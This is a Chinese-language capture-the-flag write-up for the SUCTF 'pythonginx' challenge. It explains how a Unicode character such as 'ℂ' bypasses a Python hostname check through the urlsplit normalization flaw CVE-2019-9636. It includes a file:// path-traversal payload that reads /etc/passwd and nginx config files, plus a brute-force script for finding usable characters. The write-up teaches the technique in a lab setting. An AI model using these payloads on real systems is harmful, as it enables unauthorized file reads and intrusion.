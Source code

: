 # 考察知识点：

1. pathon  CVE-2019-9636：urlsplit不处理NFKC标准化

2. nginx 配置文件



# 1.题目给出源码

```javascript
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():

    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"

    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)

    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

源码大体意思就是host前两次不能等于'suctf.cc'

第三次等于'suctf.cc'



# 2.此题和[HCTF 2018]admin有点类似，也是利用特殊字符多次处理时会改变来造成攻击

列如：[HCTF 2018]admin

![](images/3A11349FB68A4C72A829020D5970B8E5clipboard.png)

# 3.可以利用ℂ来替换.cc中的从c，在最后出来后会恢复成c,也就成功绕过了if判断，阔以修改个源码用来测试

```javascript
import urllib
from urllib import parse
from urllib.parse import urlsplit, urlunsplit

#url = []
url = "file://suctf.cℂ/../../../etc/passwd"
host = parse.urlparse(url).hostname
if host == 'suctf.cc':
    print('first')
    exit(1)
print('1 '+host)
parts = list(urlsplit(url))
host = parts[1]
if host == 'suctf.cc':
    print('sec')
    exit(2)
print('2 '+host)
newhost = []
for h in host.split('.'):
    newhost.append(h.encode('idna').decode('utf-8'))
parts[1] = '.'.join(newhost)
#去掉 url 中的空格
finalUrl = urlunsplit(parts).split(' ')[0]
host = parse.urlparse(finalUrl).hostname
if host == 'suctf.cc':
    print('3 '+host)
    print(finalUrl)
    #print(urllib.request.urlopen(finalUrl).read())
else:
    print('???')
    exit(3)


```

ℂ第一次经过host = parse.urlparse(url).hostname时变成了：ℂ

第二次：ℂ

第三次：c

符合代码的规定，接下来可以进行任意文件读取



![](images/B9F8712957644327A83F42E1C6F3C27Fclipboard.png)



# 4. ℂ是特殊字符，url编码

```javascript
import urllib

url = "file://suctf.cℂ/../../../etc/passwd"
print(urllib.parse.quote(url.encode('utf-8', 'replace')))
```



# 5. 访问读取到/etc/passwd文件

![](images/46AFBF88A9E249FD81FBF23B782D0708clipboard.png)



# 6.题目提示nginx，尝试读取nginx配置文件

- 配置文件存放目录：/etc/nginx

- 主配置文件：/etc/nginx/conf/nginx.conf

- 管理脚本：/usr/lib64/systemd/system/nginx.service

- 模块：/usr/lisb64/nginx/modules

- 应用程序：/usr/sbin/nginx

- 程序默认存放位置：/usr/share/nginx/html

- 日志默认存放位置：/var/log/nginx

- /usr/local/nginx/conf/nginx.con

![](images/FF01B658250E4CE1B6109D0181B56DDAclipboard.png)

知道flag文件位置读取



# 7.读取/user/flllllag

![](images/915B3E0E49FD491995D620ECE98CDB17clipboard.png)





# 8.爆破可用字符的脚本

```javascript
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass


def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False

if __name__=="__main__":
    get_unicode()
```



![](images/B94701942DF14490A39EBEB607217137clipboard.png)

